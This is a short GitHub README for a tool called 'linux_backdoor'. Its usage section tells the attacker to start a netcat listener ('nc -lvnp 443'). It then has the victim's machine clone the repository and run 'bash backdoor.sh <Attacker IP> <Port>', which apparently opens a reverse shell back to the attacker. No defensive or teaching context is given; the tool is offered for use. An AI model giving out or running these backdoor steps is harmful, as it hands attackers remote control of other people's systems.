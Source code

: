 # linux_backdoor

Usage : 

  ~ Attacker's PC ~
   
   nc -lvnp 443
   
  ~ Victim's PC ~

  git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  cd linux_backdoor
  
  chmod +x *
  
  bash backdoor.sh <Attacker IP> <Port>
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)

  
  



